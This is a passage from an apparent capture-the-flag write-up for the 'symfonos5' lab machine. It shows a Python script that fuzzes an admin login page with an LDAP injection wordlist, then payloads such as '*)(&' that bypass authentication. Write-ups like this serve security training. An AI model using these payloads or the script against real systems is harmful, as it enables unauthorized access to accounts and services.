 **LDAP Injection**

Analyzing what the system could be using to authenticate users, possibly via LDAP, since this service is open, so I download a dictionary and develop a python script to test for LDAP Injection.

```bash
root@kali:~$ wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_FUZZ.txt
```

```python
#!/usr/bin/env python3

import requests

target="http://192.168.179.140"

def login_ldap(target,u):
    r=requests.get(f"{target}/admin.php?username={u}&password=123")
    return len(r.text)

wordlist=open("LDAP_FUZZ.txt").read().splitlines()

if __name__=="__main__":
    for w in wordlist:
        print(f"{login_ldap(target,w):5} => {w}")
```

Then I run the script and we see a different value in the length of the request.

```bash
root@kali:~$ python3 ldap_fuzz.py
... 
1663 => *)(&           
 962 => *))%00  
1663 => *()|%26'
...
```

We check this, and managed to bypass this login page.

![](/assets/images/symfonos5/screenshot-3.png)

